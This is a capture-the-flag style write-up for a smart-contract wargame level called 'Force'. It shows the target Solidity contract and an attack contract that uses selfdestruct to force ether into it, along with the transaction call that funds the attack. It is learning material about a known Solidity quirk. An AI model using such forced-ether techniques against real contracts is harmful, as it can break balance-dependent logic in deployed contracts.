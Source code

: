 # Description

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# Notes

- To solve this challenge, we must send money to the contract, which in itself is a challenge, because there are no payable functions defined here, so we must look elsewhere.
- The idea is to use the `selfdestruct(address)` low-level opcode call which lets you abandon your smart contract and move all remaining Ethers to another address.
- we can do just that with the attack contract defined bellow :
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

contract AttackContract {

    function collect() public payable returns(uint) {
        return address(this).balance;
    }

    function attack() public {
        address addr = 0x9775aD95cf21c7737c2f4B2408106a583E811021;
        selfdestruct(payable(addr));
    }

}
```

1. we send ethers to the attack contract by calling the collect function and sending ethers like so :
```
await sendTransaction({
  from: player,
  to: "0x519d1E193fA0cA211129C33C7F2B3f9A17DeBf82",
  data: "0xe52253810000000000000000000000000000000000000000000000000000000000000000",
  value: toWei('0.0005')
});
```
2. we call the attack function that will selfdestruct the contract and send all the ether to the challenge contract address.

**PS :** You can calculate the function signature of the payable function `collect()` to send transaction to using the function `web3.eth.abi.encodeFunctionSignature('collect()')` provided by the `web3` object injected by the Metamask wallet.